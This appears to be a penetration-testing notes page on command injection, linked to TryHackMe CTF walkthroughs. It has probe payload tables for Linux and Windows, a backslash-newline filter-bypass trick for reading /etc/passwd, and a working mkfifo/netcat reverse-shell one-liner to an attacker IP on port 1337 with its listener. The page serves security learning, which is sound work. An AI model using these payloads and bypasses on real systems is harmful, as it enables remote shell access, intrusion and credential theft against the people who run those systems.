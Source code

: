 # Command Injection

## Useful payloads

### **Linux**

| Payload | Description                                                                                                                                                                                                          |
| ------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| whoami  | See what user the application is running under.                                                                                                                                                                      |
| ls      | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things.                               |
| ping    | This command will invoke the application to hang. This will be useful in testing an application for blind command injection.                                                                                         |
| sleep   | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed.                                                                              |
| nc      | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |

### Windows

| Payload | Description                                                                                                                                                                            |
| ------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| whoami  | See what user the application is running under.                                                                                                                                        |
| dir     | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
| ping    | This command will invoke the application to hang. This will be useful in testing an application for blind command injection.                                                           |
| timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed.                |



## Filter Bypass

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)&#x20;



### %A

**Examples**

[ultratech.md](../../walkthroughs/tryhackme/ultratech.md "mention")

Command Injection Payload: [https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

<figure><img src="../../.gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

### Bypass with backslash newline

**Examples**

[chill-hack.md](../../walkthroughs/tryhackme/chill-hack.md "mention")

Commands can be broken into parts by using backslash followed by a newline

```
$ cat /et\
c/pa\
sswd
```

URL encoded form would look like this:

```
cat%20/et%5C%0Ac/pa%5C%0Asswd
```



**Web**

```
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.172.186 1337 >/tmp/f
```

**Kali**

```
nc -lvnp 1337
```



